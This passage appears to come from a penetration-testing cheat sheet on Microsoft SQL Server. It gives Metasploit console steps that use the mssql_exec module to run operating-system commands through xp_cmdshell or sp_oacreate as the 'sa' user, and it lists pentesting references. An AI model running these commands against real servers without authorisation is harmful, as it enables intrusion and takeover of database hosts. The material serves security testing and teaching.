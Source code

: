```
msf auxiliary(admin/mssql/mssql_sql_file) > run
```

#### Execute Commands

```
msf > use auxiliary/admin/mssql/mssql_exec

msf auxiliary(admin/mssql/mssql_exec) > options

Module options (auxiliary/admin/mssql/mssql_exec):

   Name                 Current Setting                       Required  Description
   ----                 ---------------                       --------  -----------
   CMD                  cmd.exe /c echo OWNED > C:\owned.exe  no        Command to execute
   PASSWORD                                                   no        The password for the specified username
   RHOSTS                                                     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT                1433                                  yes       The target port (TCP)
   TDSENCRYPTION        false                                 yes       Use TLS/SSL for TDS data "Force Encryption"
   TECHNIQUE            xp_cmdshell                           yes       Technique to use for command execution (Accepted: xp_cmdshell, sp_oacreate)
   USERNAME             sa                                    no        The username to authenticate as
   USE_WINDOWS_AUTHENT  false                                 yes       Use windows authentification (requires DOMAIN option set)

msf auxiliary(admin/mssql/mssql_exec) > set rhosts <IP>

msf auxiliary(admin/mssql/mssql_exec) > set username <username>

msf auxiliary(admin/mssql/mssql_exec) > set password <password>

msf auxiliary(admin/mssql/mssql_exec) > set technique <xp_cmdshell | sp_oacreate>

msf auxiliary(admin/mssql/mssql_exec) > set cmd <command> [arguments]

msf auxiliary(admin/mssql/mssql_exec) > run
```

## References

- [MSSQL for Pentester Command Execution with XP_Cmdshell](https://www.hackingarticles.in/mssql-for-pentester-command-execution-with-xp_cmdshell/)

- [Pentesting MSSQL Microsoft SQL Server](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)

- [MSSQL for Pentester Nmap](https://www.hackingarticles.in/mssql-for-pentesternmap/)

- [MSSQL for Pentester Metasploit](https://www.hackingarticles.in/mssql-for-pentester-metasploit/)

- [Admin MSSQL Auxiliary Modules](https://www.offensive-security.com/metasploit-unleashed/admin-mssql-auxiliary-modules/)